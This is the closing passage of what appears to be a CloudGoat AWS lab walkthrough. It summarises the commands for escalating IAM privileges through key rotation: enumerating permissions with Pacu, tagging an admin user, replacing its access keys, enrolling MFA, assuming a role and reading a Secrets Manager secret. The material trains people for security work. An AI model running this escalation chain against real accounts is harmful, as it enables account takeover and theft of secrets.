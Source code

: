 ```bash
cloudgoat destroy iam_privesc_by_key_rotation
```

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
cloudgoat create iam_privesc_by_key_rotation
aws configure --profile iam_key_rotation

#Pacu our permissions
pacu
import_keys sns_low
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
whoami
data iam Users
data iam Roles
exit

#Tag the Admin & Escalate!
aws iam tag-user --profile iam_key_rotation --user-name admin_cgidiirfl3bvbv --tags Key=developer,Value=true
aws iam list-access-keys --profile iam_key_rotation --user-name admin_cgidiirfl3bvbv  
aws iam delete-access-key --profile iam_key_rotation --user-name admin_cgidiirfl3bvbv --access-key-id AKIAVRUVQNVQWOME4UIF
aws iam create-access-key --profile iam_key_rotation --user-name admin_cgidiirfl3bvbv 

#Become admin
aws configure --profile admin
aws sts get-caller-identity --profile admin

#Set up MFA
aws iam create-virtual-mfa-device --virtual-mfa-device-name admin-virt-mfa --outfile mfa-qr.png --profile iam_key_rotation --bootstrap-method QRCodePNG
aws iam enable-mfa-device --user-name admin_cgidf88xs8i2ur --serial-number arn:aws:iam::381491899745:mfa/admin-virt-mfa --authentication-code1 CODE1 --authentication-code2 CODE2 --profile iam_key_rotation

#Delete old key & make fresh one
aws iam delete-access-key --profile iam_key_rotation --user-name admin_cgidf88xs8i2ur --access-key-id AKIAVRUVQNVQ3RMHLPPL
aws iam create-access-key --profile iam_key_rotation --user-name admin_cgidf88xs8i2ur

#Take on role
aws sts assume-role --role-arn arn:aws:iam::381491899745:role/cg_secretsmanager_cgidf88xs8i2ur --role-session-name magic --serial-number arn:aws:iam::381491899745:mfa/admin-virt-mfa --token-code 005780 --profile admin
aws configure --profile iam_key_role
aws configure set profile.iam_key_role.aws_session_token TOKEN HERE

#Grab secret
aws secretsmanager list-secrets --profile iam_key_role 
aws secretsmanager get-secret-value --profile iam_key_role --secret-id arn:aws:secretsmanager:us-east-1:381491899745:secret:cg_secret_cgidf88xs8i2ur-jghZnP
```
